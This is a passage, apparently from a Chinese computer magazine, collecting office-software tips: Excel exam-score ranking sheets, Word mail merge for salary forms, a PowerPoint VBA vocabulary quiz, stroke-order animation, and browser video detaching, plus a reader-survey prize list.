- 2. 冻结窗格：选定D2单元格，冻结窗格，以便行标题、列标题总能显示。
- 3. 分数区域添加“0”：选定分数区域，全部输入“0”（最好用快速输入方法，以节省时间），以便后面的数据处理时能正常显示，设置其数据类型为数值型、1位小数，右对齐。
- 4. 保护工作表：设置分数区域为可编辑区域，并密码保护此工作表（利用“工具”下拉菜单中的“保护”来设置）。

#### 制作“排名”工作表

选择Sheet2工作表，将工作表标签重命名为“排名”。此表用于打印各班成绩单。
快速制作此表的几点技巧说明：

- 1. 利用相对引用导入数据：选定A1单元格，然后引用“录入”工作表中的A1，并使用填充柄向右填充到I1，之后设置好格式，冻结窗格，如图2。


- 2. 利用填充柄填充引用：选定A1至I1，使用填充柄向下填充1行，然后修改格式，如图3。然后，选定A2至I2，继续使用填充柄向下填充所有行。



- 3. 添加总分相关列：在姓名后插入3列，分别是“总分”、“校排”、“班排”，并设置适当格式，如图4。



- 4. 利用求和函数计算总分：在D2内输入“=SUM(G2:L2)”。
- 5. 利用排位函数生成校排名：在E2内输入“=RANK(D2,D:D,0)”，其中“D:D”表示D列、“0”表示降序排位。
- 6. 利用排位函数生成班排名：在F2内输入“=RANK(D2,D$2:D$58,0)”，其中“D$2:D$58”是1班所有学生、“0”表示降序排位。

- 7. 利用填充柄填充数据：选定D2至F2，使用填充柄向下填充1班。修改班排函数区域后，同理填充其他班。
- 8. 复制生成各科的排名：选定E、F两列并复制，然后在G列后插入复制的单元格，这样语文的校排、班排就自动生成了。同理插入其他科的校排、班排，如图5。



- 9. 打印设置：由于此表要用于打印各班成绩单，为使每班能单独成一页，在每班后（即下一个班第一个学生位置）应插入分页符。为使每班成绩单中均有“某某次考试成绩单”字样，进行页面设置时，在“页眉/页脚”标签中自定义页眉内容，如图6。为使每班成绩单中均有标题行，进行页面设置时，在“工作表”标签内的“顶端行标题”内指定标题行，如图7。设置好纸张大小和页边距，通过调整缩放比例使成绩单即美观又能看得清。打印前可根据需要使用排序对话框调整排序方式，本表默认是按班级学号升序排列，一般调整为班级（第一关键字）升序、总分（第二关键字）降序、学号（第三关键字）升序的方式排序。




#### 制作“平均分”工作表

选择Sheet3工作表，将工作表标签重命名为“平均分”。此表用于各班学生成绩比较。如图8

| A | B | C | D | E | F | G | H |
|---|---|---|---|---|---|---|---|
| 1 | 班级 | 总分 | 名次 | 均差 | 语文 | 数学 | ...
| 2 | 1 | 572.1 | 1 | 39.5 | 105.1 | 118.8 | ...
| ... | ... | ... | ... | ... | ... | ... | ... |

##### 此表制作的几点说明：

- 1. 基础输入：按上图中的表格样式输入行标题和列标题，并设置格式，填充底色，添加表格线。
- 2. 利用求平均值函数计算平均分：在B2内输入“=AVERAGE(排名!D2:D58)”，得1班总分平均分。同理得到其他班的总分平均分和校总分平均分。
- 3. 利用排位函数生成名次：在C2内输入“=RANK(B2,B$1:B$9)”，并利用填充柄向下填充，得到各班的名次。
- 4. 利用公式得各班均差：在D2内输入“=B2-B$10”，并利用填充柄向下填充，得到各班的均差。
- 5. 复制生成各科相应数据：选定B2至D10并复制，分别在各科下方粘贴，就可得到各班和校的平均分以及各班的名次和均差。

#### 制作“通头教师”工作表

插入“工作表”，并将新工作表标签重命名为“通头教师”。此表用于通头教师教学成绩比较。制作原理类似“平均分”工作表，但不能盲目照搬，不再冗赘。格式如图9。

| A | B | C | D | E | F | G | H |
|---|---|---|---|---|---|---|---|
| 1 | 语文 | 语文均 | 名次 | 差 | 数学 | 数学均 | 名次 | 差 |
| 2 | 教师1 | 104.7 | 1 | 3.6 | 教师1 | 118.8 | 1 | 7.9 |
| ... | ... | ... | ... | ... | ... | ... | ... | ... |

#### 制作“各段人数”工作表

插入“工作表”，并将新工作表标签重命名为“各段人数”。此表用于各班班内成绩分析或用于平行班成绩横向比较。
统计各分数段人数需要单科进行，下面以“语文”为例讲制作方法。

| A | B | C | D | E | F | G | H | I |
|---|---|---|---|---|---|---|---|---|
| 1 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 |
| 2 | 优 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| ... | ... | ... | ... | ... | ... | ... | ... | ... |

1. 基础输入：按上图中表的样式输入行标题和列标题，并设置格式，填充底色，添加表格线。
2. 利用条件统计函数计算各分数段人数：
    - 在B2内输入“=COUNTIF(排名!$G$2:$G$58,">=135")”
    - 在B3内输入“=COUNTIF(排名!$G$2:$G$58,">=120")-B2”
    - 在B4内输入“=COUNTIF(排名!$G$2:$G$58,">=105")-B2-B3”
    - 在B5内输入“=COUNTIF(排名!$G$2:$G$58,">=90")-B2-B3-B4”
    - 在B6内输入“=COUNTIF(排名!$G$2:$G$58,"<90")”

到此，1班各分数段人数就统计完了。
同理可以计算出其他班和全校的各分数段人数。
如法炮制，也可求得其他学科的各分数段人数。
如果要统计学生总分的各分数段人数也可同理进行制作。
有兴趣的同仁们，也亲手做一下吧。虽然制作简单，但完全可以替代复杂的程序，并且直观性强，关键是人人可以做，而程序不能人人编写。快动手吧，做完后你一定很有成就感。

### 为Word 2007添加“发送到Microsoft Office PowerPoint”命令

文/山东 王杰

你经常使用Word配合PowerPoint工作，于是Word 2003“文件”菜单“发送”子菜单中的“Microsoft Office PowerPoint”命令是你的最爱。然而，当你将Office 2003升级到Office 2007后，在“Microsoft Office按钮”菜单“发送”子菜单中却没有了“Microsoft Office PowerPoint”命令的踪影。着急了？不用急，因为以下操作可将“发送到Microsoft Office PowerPoint”命令添加到Word 2007的快速访问工具栏。

- 1. 单击“Microsoft Office按钮”，然后单击“Word 选项”。
- 2. 单击“自定义”。
- 3. 在“自定义快速访问工具栏”列表中，确认当前选择的是“用于所有文档（默认）”。

- 4. 在“从下列位置选择命令”列表中，选择“不在功能区中的命令”，然后在其下列表中通过滚动条找到并单击“发送到Microsoft Office PowerPoint”。
- 5. 单击“添加”按钮，则“发送到Microsoft Office PowerPoint”出现在“自定义快速访问工具栏”框下的列表中（如图1）。
- 6. 单击“上移”或“下移”按钮可以调整“发送到Microsoft Office PowerPoint”在快速访问工具栏中出现的位置。
- 7. 单击“确定”按钮。



之后，你就可以单击快速访问工具栏中的“发送到Microsoft Office PowerPoint”按钮将打开的Word文档直接转换成PowerPoint演示文稿了。如果以后不再需要“发送到Microsoft Office PowerPoint”按钮了，可以右键单击该按钮，从弹出的快捷菜单中，单击“从快速访问工具栏删除”（如图2）将之删除。



### 实验数据“处理+作图”，Excel照样轻松搞定

文/唐山 张贻忠

新的学期又要开始了，在大学读理工科的同学要做各种实验，做了实验还要写实验报告，当然还得处理实验数据。没电脑的时代只能用计算器计算、买坐标纸手绘，有电脑当然要用计算机来完成。一谈到作图大家首先想到Matlab，不但操作复杂而且体积巨大，让好多同学望而却步。其实Excel完全可以胜任作图而且在数据处理方面还更胜一筹，方法也更加简单，顺便还可排版以方便打印。下面我就和大家来分享一下自己的使用心得。

#### 数据处理

主要是利用Excel中的函数与自动填充两个功能，函数可以方便地对数据进行处理，除了常用函数外还有一些很实用函数例如STDEV、Ln等，一般的运算还可以自己根据需要来编辑公式。自动填充可以快捷地对同样处理方法的数据进行“批处理”，这一功能很强大，使用方法也很简单，这里不再赘述。

#### 坐标作图

把数据进行线性拟合作图从而得到实验结果。作直线最常用，可得到直线斜率和截距，也有需要作各种曲线的。下面就简单举例，在一个图中作两条不同曲线。大多数都可以以此来作图。

方法步骤：

- 1. 选中需要作图的数据区域，不连续的区域可按住Ctrl键来选（其实这点并不是必要的），然后点“插入/图表”。在“图表类型”中选“XY散点图”，“子图表类型”默认即可（如图1）。单击“下一步”。

- 2. 选择“系列”项（如图2），一个系列在图中代表一条曲线，通过添加或删除来增减，本例有两个系列。在右边有X值Y值，选中相应的系列后单击输入框右边的按钮，可分别选取源数据区域，因为默认的横纵坐标不一定是自己想要的，有时还需要自己进一步调整。

- 3. 通过点“下一步”，按照自己的需要完成图表向导得到散点图。右击图中的任一坐标点，选“添加趋势线”，在“类型”中有多种线性拟合（如图3），选择合适的曲线进行拟合，可以多次尝试以确定最优的曲线。在“选项”中勾选“显示公式”和“显示R平方值”，这样可以得到曲线的拟合方程，可以直观地读出所需要的一些数值如斜率、截距等（如图4）。因为默认的是以坐标点的两个端点作图，曲线很可能无法与坐标轴相交，可以在“趋势预测”中“倒推”中填入合适的数值使曲线延长与坐标轴相交。最终得到图5。

补充说明：

- 1. 有些曲线并不适合用方程来描述，用线性拟合误差较大，实验只需得到光滑曲线即可，可在第一步中的“子图表类型”中选择“平滑线散点图”等。
- 2. 在结果图中右击坐标轴的数值，在“坐标轴格式”中有一些选项以优化数据图，如单位、精度、网格线等。

### 教你批量添加Word页眉页脚

文/山东 郑春英

在Word中添加页眉页脚时，可以单击执行“视图→页眉和页脚”菜单命令。但如果需要添加的文档比较多时，需要逐一打开再进行操作，非常繁琐。其实，我们可以借助“Word文档批量添加页眉页脚”（下载地址：http://hzcnc4.skycn.com/down/DocAddHeadr.zip）批量进行添加。

该软件属于绿色软件，解压后直接可以使用。运行后界面如图所示，首先在左侧的文件浏览窗口中定位到需要批量添加页眉页脚的文件所在文件夹，在右侧下端会显示出所有Word文档，然后在“页眉内容”文本框中输入页眉信息，在“页脚内容”文本框中输入页脚信息，最后，单击“开始添加”按钮，即可进行批量添加。勾选“同时处理xls文档”复选框，可以同时处理Excel文档。

### Excel与Word联手，轻松搞定涨工资

文/王道才

终于涨工资了，虽然只涨长了二三十元，但说道却不少，既要看职称，还要参照学历、工龄等等，而最要命的是每人还要填一张审批表（见图），虽然100多人的单位不算太大，但每张表中的数据却不少，好在这些数据大部分都在Excel电子表格中保存着，且有变化的如工龄、工资提高部分又有规律，所以我对照审批表的项目先在Excel中把每个人的数据都录入并计算好，最后利用Word中的“邮件合并”功能帮会计轻松搞定了这次涨工资。

**机关、事业单位工作人员(正常晋升)工资审批表**

| 单位性质：事业 | 经费拨款情况：全额 | 单位：元 |
| :--- | :--- | :--- |
| 姓名 | 性别 | 出生年月 | 参加工作时间 | 身份 |
| 学历 | 工龄合计年限 | 其中：未计算工龄的学历年限 |
| 原职务(岗位) | 职务(岗位)名称(聘任) | 任职时间 | 现职务(岗位) | 职务(岗位)名称(聘任) | 任职时间 |
| 执行何种工资标准 | 执行何种工资标准 |
| 变动前工资情况 | 级别(岗位)、薪级档次 | 级别(岗位)工资 | 级别(薪级)工资 | 技术等级工资 | 工资标准提高部分 | 其它 | 小计 |
| 变动后工资情况 | 级别(岗位)、薪级档次 | 级别(岗位)工资 | 级别(薪级)工资 | 技术等级工资 | 工资标准提高部分 | 其它 | 小计 | 月增资额 |

步骤如下：

- 第一步
启动Word 2003，单击“工具→信函与邮件→邮件合并”，在打开的“邮件合并”任务窗格中的“选择文档类型”项中选择“标签”，然后点“下一步：正在启动文档”。

- 第二步
在“更改文档版式”项中，单击“标签选项”，在“标签选项”对话框的“纸盒”框中选择“自动送纸器”，接着单击“新建标签”按钮打开“新建自定义标签”对话框，在“标签名称”框中输入你给新建标签起的名，如“2009涨工资”。根据预览框中的图示和你准备打印输出时使用的纸张大小，把“上边距”和“侧边距”分别改为2.5厘米；把“标签高度”和“标签宽度”分别改为24.5厘米和16厘米；标签列数和标签行数都选择1；最后在“页面大小”框中选择“A4（21×29.7厘米）”，这时就为我们上面设置的尺寸找到依据了：侧边距2.5厘米+标签宽度16厘米=A4纸宽度21厘米；上边距2.5厘米+标签高度24.5厘米<A4纸高度29.7厘米，点两次“确定”返回。把上级工资管理部门给的审批样表复制、粘贴到我们刚才设置好的大标签中，并拖动调整好表格各单元格的大小，使其正好布满我们设定的标签范围。最后再点“下一步：选取收件人”。

- 第三步
点“浏览”找到我们录入并计算好各种数据的Excel文件并单击“打开”，这时出现“选择表格”对话框，有Sheet1$、Sheet2$和Sheet3$等多个工作表让我们选择，一般情况都选择Sheet1$（根据我们数据存放的具体工作表情况选择），根据Excel文件有无标题行确定“数据首行包含列标题”项是否√选，最后点“确定”，在出现“邮件合并收件人”对话框时，直接点“确定”即可。

- 第四步
单击准备自动输入“姓名”的那个单元格，然后单击右侧的任务窗格中的“下一步：选取标签”，接着单击“其他项目”，在新出现的“插入合并域”对话框中选择“姓名”然后单击“插入”按钮，这时该单元格中会出现用书名号括着的“姓名”二字，再单击新出现的“关闭”按钮。接着再单击准备自动输入“性别”的那个单元格，然后再单击“其他项目”，在新出现的“插入合并域”对话框中选择“性别”后再单击“插入”按钮，最后再单击新出现的“关闭”按钮。仿照此方法依此类推把其它该自动填充数据的单元格都到“插入合并域”对话框中选择相应的域。

- 第五步
都填完后可以点“下一步：预览标签”预览一下第一个人的最终效果，如果发现有的数值保留的小数位数过多，可以再单击“上一步：选取收件人”，然后右键单击保留小数位数过多的单元格，左键选择“切换域代码”，在切换过来的域代码最后边的大括号前再输入\#0.00，然后再右键单击切换后的域代码，最后左键选择“更新域”。再点“下一步：预览标签”预览一下最终效果，如果还有其它单元格有保留多位小数的，可以分别重复此方法让其保留两位小数。

- 第六步
再点“下一步：预览标签”，然后接着单击新出现的“下一步：完成合并”，最后再单击“编辑个人标签”，在“合并到新文档”对话框中选择“全部”后点“确定”退出。这时Word会自动新建一个名为“标签1”的文件，并把Excel电子表格文件中的所有数据制作成相应的标签。

- 第七步
如果在预览标签1文件时发现有错误，如有个别单元格保留的小数过多，可以再返回到我们刚才执行“邮件合并”功能的Word文档中，单击“上一步：预览标签”，然后再单击“上一步：选取标签”，然后按第5步的方法把相应的单元格保留成两位小数。

- 第八步
如果打印输出时发现尺寸有偏差（一开始估算错了），可以从第2步重新开始，找到我们刚才新建的“2009涨工资”去修改一下尺寸就可以了。具体方法是：单击“标签选项”后，直接在“标签选项”对话框中的“标签产品”框中选择“其他/自定义”，然后在“产品编号”列表框中选择我们原来建立的“2009涨工资——自定义”，最后点“详细信息”就能直接修改标签尺寸了。

- 第九步
最后把执行“邮件合并”功能的Word文档和“标签1”文档分别保存即大功告成了。其实我们还可以仿照此法来打印输出工资条、成绩单等。

### 打造PPT版随机出题系统

文/新玲的窗户

笔者的小外甥正在读小学三年级，由于没有掌握记忆英语单词的方法，因此英语学习成绩一直不太理想。的确，如果仅凭死记硬背来记忆英语单词的话，那效率肯定很低。爱玩是孩子的天性，何不通过一款小游戏来记忆英语单词呢？笔者花费了一上午的时间为小外甥制作了一款PPT版记忆英语单词的小游戏，看着他玩得不亦乐乎，记忆英语单词效率的提高当然是在意料之中的事情了。好的经验当然不能藏着，下面就来和大家一同分享。

#### 准备工作

启动PowerPoint 2003（其他版本操作类似），然后将默认打开的幻灯片中的所有元素都删除，再右击幻灯片的任意位置，选择“背景”，打开“背景”对话框，选择一张自己喜欢的图片做为幻灯片的背景（见图1），最后将这个PPT文档保存到硬盘的任意位置（如E盘根目录下），文件名为“单词记忆小游戏.PPT”。

#### 界面的设计

第一步：先单击图1中A处所示的文本框按钮，在幻灯片的上端插入一个文本框，然后输入文字“单词记忆小游戏”，接着右击该文本框，选择“字体”，打开“字体”对话框，根据自己的喜好设置好字体、字体的大小及颜色等参数，使之整齐美观，如图2中A处。

第二步：按照第一步所介绍的方法，接着插入五个文本框，然后分别在这五个文本框中输入一些说明性的文字、“问题：”、“答案：”、“对错：”、“成绩：”，再根据自己的喜好设置好各个文本框的字体、字体的大小及颜色等参数，最后将这五个文本框按照图2，B-F所示的位置进行排列。

第三步：单击菜单“视图→工具栏→控件工具箱”命令，调出“控件工具箱”，再选中里边的“文本框”控件，插入一个文本框并调整好大小（如图2，C处右边）；接着右击该文本框，选择“属性”，打开“属性”对话框，将“名称”属性修改为该文本框左边文字的拼音——“WenTi”，最后再将文本框的“MultiLine”属性修改为“True”。

> 小提示
将文本框的“MultiLine”属性修改为“True”，目的是为了使得文本框的文字能够根据文本框的宽度自动换行，以方便我们查看文字的全部内容。

第四步：复制“WenTi”文本框并执行三次粘贴操作，然后将粘贴的文本框放置在图2，D-F所示文字的右边，接着执行以下操作：
先根据文本框所包含内容的多少调整好三个文本框的大小；然后把新粘贴的三个文本框的“名称”属性分别修改为左边图2，D-F所示文字的拼音“DaAn”、“DuiCuo”、“ChengJi”；再打开“DuiCuo”文本框的“属性”对话框，修改“BackColor”属性，将文本框的背景色设置为“蓝色”、修改“Font”属性将文本框文字的颜色设置为白色（文字大小及字体等参数可随便修改）；最后将“ChengJi”文本框的背景色设置为“绿色”。

> 小提示
1.对于不同控件的相同属性（如“名称”属性、“BackColor”属性等），其修改方法是相同的，所起到的作用也是相同的。
2.我们修改文本框或其他控件的“名称”属性是为了在代码中方便对其进行调用，增强代码的可读性，下同。

第五步：选中“控件工具箱”中的“命令按钮”控件，插入三个命令按钮，然后分别将这三个命令按钮的界面文字修改为“出题”、“判断”、“重做”，接着将这三个命令按钮按照图2，G处所示的位置进行排列，最后分别打开这三个命令按钮的“属性”对话框，将其“名称”属性分别修改为“ChuTi”、“PanDun”、“ChongZuo”。

经过以上步骤的操作，这个PPT版“单词记忆小游戏”的界面就已经设计好了，如图2所示。

### 代码的添加及升级

#### 1.代码的添加

通过观察图2所示的界面，大家可以知道这个PPT版“单词记忆小游戏”具有随机自动出题、判断对错和统计成绩的功能。当然，要实现上述功能，代码的添加就是必不可少的了。具体说来，我们需要执行以下操作：

- 1. 双击图2窗口中的“出题”命令按钮，打开其代码窗口，然后在光标处添加以下代码：

```

WenTi.Text = ""
DaAn.Text = ""
DuiCuo.Text = ""
a = Int(Rnd * 1) + 1
If a = 1 Then
    WenTi.Text = "英语单词“电脑”，怎么写？"
End If

```

代码说明：前三行代码的含义是：分别清空“WenTi”、“DaAn”、“DuiCuo”这三个文本框的内容；然后随机产生一个不小于1的自然数并赋值给变量a（第四行代码），如果变量等于1的话，“WenTi”文本框就会显示“英语单词‘电脑’，怎么写？”（后三行代码）。

- 2. 打开“判断”命令按钮的代码窗口，然后在光标处添加以下代码：

```

If a = 1 And DaAn.Text = "computer" Then
    DuiCuo.Text = "恭喜您，答对了，您真聪明！！"
    Dui = Dui + 1
End If
If a = 1 And DaAn.Text <> "computer" Then
    DuiCuo.Text = "错了哟！再想想，相信您一定能够答对！！"
    Cuo = Cuo + 1
End If
ZongShu = Dui + Cuo
ChengJi.Text = vbCrLf + "总体测验情况：" + vbCrLf + "一共做了" + CStr(ZongShu) + "道题，" + vbCrLf + "其中做对了" + CStr(Dui) + "道题，" + vbCrLf + "做错了" + CStr(Cuo) + "道题，" + vbCrLf + "正确率" + CStr(Int(100 * (Dui / ZongShu))) + "%。"

```

代码说明：第一个“If…End If”语句的含义是：如果用户做对了第一道题目，单击“判断”按钮，“DuiCuo”文本框就会显示题目做对的提示信息并且变量Dui会自动加1；反之，“DuiCuo”文本框就会显示题目做错的提示信息，变量Cuo就会自动加1（第二个“If…End If”语句的含义）；最后“ChengJi”文本框就会分别显示做对、做错几道题目以及正确率是多少（其余代码的含义）。

- 3. 先打开“重做”命令按钮的代码窗口并在光标处添加以下代码：

```

WenTi.Text = ""
DaAn.Text = ""
DuiCuo.Text = ""
ChengJi.Text = ""
Dui = 0
Cuo = 0

```

“重做”命令按钮的代码添加完毕后，接着将鼠标定位在所有代码的第一行的左边，添加一句代码——“Dim a, Dui, Cuo, ZongShu As Integer”（不包含外侧引号），最后按下回车键，就完成所有的代码的添加工作了，如图4。

> > **小提示：**
> 在图3所示的窗口中，第一句代码的含义是定义a、Dui、Cuo、ZongShu四个整数型变量。

#### 2.代码的升级

可能大家已经看出来了，上边我们添加的代码只包含一道题目，这实在太少。其实，我们只须通过复制、粘贴上边代码的一部分并修改粘贴代码中的几个数字和题目信息，就可以很方便地添加多道题目。添加其他的题目，具体方法如下：

- 1. 先将图3，A处上边“Rnd * 1”字符串中的1修改为4（表示一共包含四道题目），然后复制图3，A处的代码并在图3，A处代码的末尾回车；接着执行粘贴操作，最后将粘贴的代码中变量a等号后边的1修改为2、“WenTi.Text”等号后边的“电脑”修改成其他英语单词的汉语意思（如“书”）。
- 2. 复制图3，B处所示的代码并在该处代码的末尾回车，然后执行粘贴操作，接着将粘贴的代码中变量a等号后边的1修改为2，最后把粘贴代码中的英文单词computer替换为“书”的英文单词book。

重复第1、2步所介绍的操作，再分别复制图3，A、B两处的代码并执行粘贴操作，然后将变量a等号后边的1修改为其他自然数（3、4），接着把“WenTi.Text”等号后边的“电脑”修改成其他英语单词的汉语意思，最后将英文单词computer替换为与修改的汉语意思对应的英文单词即可。

经过这样的代码升级，这个PPT版的单词记忆小游戏就已经大功告成了。

### 效果预览

关闭“单词记忆小游戏.PPT”并保存对其所做的修改，然后重新打开之，在弹出的“安全警告”对话框中单击“启用宏”按钮；接着按下F5快捷键并单击幻灯片中的“出题”按钮，这时就会随机出一道题；答完题并单击“判断”按钮，就可以知道题目的对错和正确率等情况了；当然，再次单击“出题”按钮，就会重新出一道题目，以方便我们接着解答以及进行判断对错的操作。

有了这个PPT版的单词记忆小游戏，小学生记忆单词的效率就比以前高多了，有此需求的朋友不妨一试。

### 汉字书写特效，PPT也能做
文/新玲的窗户

传统的汉字笔顺教学，一般是老师将汉字的笔画分解写在黑板上，然后再给学生讲解先写哪一笔，再写哪一笔，最后又写哪一笔。想想看吧！这样的教学怎么能引起一年级小学生的学习兴趣呢？其实，只需利用PPT，我们就可以做出生动形象的汉字按笔顺书写的特效来。

#### 汉字的单个笔画的获得
对于汉字来说，各笔之间存在着两种不同的位置关系，其中一类汉字是各笔之间没有任何接触（简称之“相离”，如“三”、“小”、“心”等）；而另一类汉字则正好与之相反——至少有两笔之间有接触（简称之“相交”，如“牛”、“中”、“田”等）。对于这两类完全不同的汉字来说，其单个笔画的获得也是完全不同的。

##### 1.相离关系汉字单个笔画的获得
- 第1步：启动PowerPoint 2003（其他版本操作类似），然后将默认打开的幻灯片中的所有元素都删除，再单击菜单“插入→图片→艺术字”命令，打开“艺术字库”对话框并选中一种艺术字的样式，接着输入一个具有相离关系的汉字（如“小”），最后设置好汉字的大小，如图1，A处所示。
- 第2步：右击图1窗口中的“小”字，选择“剪切”，然后单击菜单“编辑→选择性粘贴”命令，打开“选择性粘贴”对话框并选中其中的“图片（Windows 元文件）”选项，接着单击“确定”，再右击幻灯片中的“小”字，选择“组合→取消组合”，在弹出的对话框中单击按钮“是”，最后再次右击幻灯片中的艺术字“小”字，选择“组合→取消组合”，这样就将汉字“小”字分解为单个的笔画了，如图1，B处所示。



> 小提示：为了使汉字按笔顺书写的特效能够让学生看清楚，可以为分解后的“小”字的各个笔画添加填充色，具体方法为：右击某个需要添加填充色的笔画，选择“设置自选图形格式”，打开“设置自选图形格式”对话框并切换到“颜色和线条”选项卡，接着单击“填充”右边的下拉箭头，选择一种比较显眼的颜色（如“黑色”），最后单击“确定”按钮即可。

##### 2.相交关系汉字单个笔画的获得
上边给大家介绍了如何获得具有相离关系的汉字的单个笔画，但是对于另一种具有相交关系的汉字来说，利用这个方法就无法获得汉字的单个笔画了。不过大家不要着急，因为我们可以利用拼凑的方法来获得此类汉字的单个笔画。接下来，笔者就以获得“牛”字的单个笔画为例给大家介绍一下，其具体的操作步骤如下：

- 第1步：启动Word 2003，然后在默认打开Word文档中，单击菜单“插入→符号”命令，打开“符号”对话框并选中该对话框中的笔画——“竖”，然后单击“插入”按钮，将其插入到Word文档中。
- 第2步：先剪切Word文档中的笔画“竖”，然后单击菜单“插入→图片→艺术字”命令，打开“艺术字库”对话框并选中前边在PPT窗口选择的同一种艺术字的样式，执行粘贴操作并接着单击“插入”按钮，插入一个艺术字的单个笔画——“竖”，最后将笔画“竖”的填充色设置为“黑色”。

接下来，我们仿照第二步的操作方法，再插入一个艺术字“一”并将汉字的填充色设置为黑色，接着复制Word文档中的艺术字“一”和笔画“竖”，最后粘贴到图1所示的PPT窗口中即可。

至此，我们就获得了“小”和“牛”这两个汉字的所有单个笔画。

#### “准汉字”的制作及添加动画效果
##### 1.“准汉字”的制作
相信大家都有这样的常识，就是汉字如果按照笔顺书写的话，那么除了最后一个是完整的以外，前边的都是一些“缺胳膊少腿”的“准汉字”。其实，有了汉字的单个笔画这些原材料，我们只需复制、缩小或者扩大其中的一个或者多个笔画，最后再进行“组装”，这些“准汉字”就制作成功了。无论是对于具有相离关系的汉字还是具有相交关系的汉字，其“准汉字”的“组装”是一样的。因此，笔者就以难度比较大的“牛”字为例，给大家介绍一下“准汉字”的制作。

在已打开的PPT文档中，先复制“小”字的“撇”画并粘贴到合适的位置，这样与“牛”字第一笔有关的“准汉字”就制作好了（如图2，A处）；然后粘贴“小”字的“撇”画到


##### 2.添加动画效果
在图2所示的窗口中，虽然能够清楚地展示给小学生该汉字的书写笔顺，但这种静态的效果和老师在黑板上书写的没什么两样。对于一年级的小学生来说，还是给各个笔画添加上动画特效才能更吸引他们，教学效果当然也会更加理想。为汉字“牛”的各个笔画添加动画特效，我们需要执行以下操作：第1步：先将图2，D处以外的所有“准汉字”给删除，接着选中图2，D处所示“牛”字的第一笔——“撇”画，然后单击菜单“幻灯片放映→自定义动画”命令，调出“自定义动画”面板，再单击该面板中的“添加效果”按钮，在弹出的下拉菜单中选择“进入→棋盘”，为第一笔“撇”画添加一个棋盘动画特效。第2步：这时“自定义动画”面板的自定义动画列表中就会出现一个动画选项，单击该选项右边的下拉箭头，选择“计时”，打开“棋盘”对话框并切换到“计时”选项卡，将“速度”参数修改为中速，最后单击“确定”。重复第1、2步的操作步骤，按照笔顺书写的顺序，为图2，D处的其他所有笔画添加上自己比较满意的动画特效，这样“牛”字按笔顺书写的动画就已经大功告成了。

> 小提示
看到将图2，A——C处这三个“准汉字”都删除，可能有的读者会想到直接用各个笔画拼装汉字“牛”，这样更省事一些。但笔者不建议大家这样做，因为“拼装”汉字一次成型，这样不容易把握汉字间各个笔画的大小和结构关系，使得最终“拼装”的汉字显得不伦不类；而一次只“拼装”一笔，如果不满意，可以随时更改新添加的笔者画的大小及位置关系；此种“拼装”汉字的方法，效率实际上是最高的。

### 效果预览
现在，按下F5快捷键，大家会发现幻灯片是一片空白，什么也没有，单击鼠标左键，就会看到书写“牛”的第一笔，接着再单击鼠标三次，就可以完成“牛”的书写工作了。单击鼠标一次就书写一笔，这种触发动画的方式可以使老师在学生写字笔顺最容易出错的地方停下来，给学生讲解并通过让学生观察此时“准汉字”的状态以加深印象，从而取得良好的教学效果。怎么样，利用PPT演示汉字按笔顺书写的特效是不是很方便、效果也很不错呢？有此需求的老师不妨一试。

### 2008年下半年合订本有奖调查


#### 获奖名单
##### 幸运奖（2名）
- 孙昊 (山东)
- 刘严涛 (广西)

##### 优秀建议奖（10名）
- 杨阳 (甘肃)
- 姚家辉 (广东)
- 陆明 (陕西)
- 王磊 (天津)
- 王浩 (山西)
- 贾龙 (山西)
- 徐白杨 (江苏)
- 林勤志 (福建)
- 孙俊伟 (福建)
- 赵博雅 (河北)

##### 参与奖（20名）
- 李明睿 (河南)
- 袁宜峰 (江西)
- 冯京京 (河北)
- 王睿 (甘肃)
- 孙霞 (黑龙江)
- 周雄 (江苏)
- 孙涛 (甘肃)
- 王晶霖 (山东)
- 袁先东 (广东)
- 巴塔 (内蒙古)
- 张宏毅 (福建)
- 马慧培 (安徽)
- 曹玉杭 (河南)
- 钟久亮 (湖南)
- 李捷 (河北)
- 吴思广 (江苏)
- 张银吉 (浙江)
- 吴盼 (山西)
- 许春灵 (福建)
- 方洲 (浙江)

##### 鼓励奖（50名）
- 乔杉等

### 剥离网页视频 在线看电影收放自如
文/流言

除了下载电影到本地观看外，现在不少人都喜欢在视频网站上在线看电影。不过在线看电影有个问题，就是影视视频是嵌入在网页中的，不能随意调整屏幕大小。另外现在大多数人使用的是多标签浏览器，想要一边看电影一边浏览新闻，就非常不方便。如果你有这样的烦恼，下面的几招能帮你排忧解难。

#### 搜狗里的独立播放器
搜狐推出的搜狗浏览器，以能加速教育网与公网之间的互联互通而闻名，其实它还有一项特殊的本事：多媒体独立播放。

还没有安装搜狗浏览器的朋友，可以从http://ie.sogou.com/下载它的最新版本。下载安装后，打开优酷网站（http://www.youku.com/）或其他任意视频网站，搜索到自己想看的电影视频后，将光标指向视频，将显示“打开视频播放器”按钮，点击之后，该视频即可从网页剥离出来，成为独立播放器，可以随意缩放大小，移动位置等，看起电影来就方便多了（见图1）。


> 工作时间看电影，怕不怕被领导发现？没关系，快速启动搜狗浏览器的隐私浏览模式（见图2，点击右下角眼睛图标即可），这种模式下收看的网页在线视频，在你关掉浏览器之后，即会删除所有痕迹。

#### 火狐在线视播放独家秘技
火狐（Firefox）的“粉丝”众多，他们怎么解决多标签浏览时边看网页边看电影的矛盾呢？火狐也有火狐的绝招。

首先打开http://g-fox.cn/，下载安装火狐中国版，这是专为中国专户定制的版本，集成了许多贴心功能。启动后，会发现它右侧多出一个魔镜窗格。当我们想在线看电影时，可打开视频网站（如优酷：http://www.youku.com/），找到自己想看的视频，将光标移到视频上时，其右侧会显示“拖”字按钮，拖动它到右侧魔镜窗格中，就会惊喜地发现该视频已被从网页剥离出来了（见图3）。这时你就可以一边看电影，一边在左侧浏览其他任意网页，真是工作娱乐两不误了。想要关闭魔镜中的视频，点击其右侧红色的停止按钮即可。



- ★除了剥离网页视频外，火狐中国版的魔镜还支持网页图片剥离，在浏览网页时看到精美的图片，可随手将其拖到右侧的魔镜中收藏。等图片收集得差不多的时候，在火狐魔镜空白处右击并选择“全选”，接着再右击选择“保存到本地”即可一次性保存所有收集的图片，非常方便（见图4）。
- ★火狐中国版魔镜中，点击“音乐”按钮可打开一网页播放器，在这里可以搜索在线歌曲或添加本地音乐，就可以一边工作一边听音乐了。




#### 借花献佛，IE也玩视频独立播放
不可否认的是，使用IE的用户还是非常多的，难道广大的IE使用者就无法使用视频独立播放功能了？其实，通过一个小小的插件，IE一样也能做到。

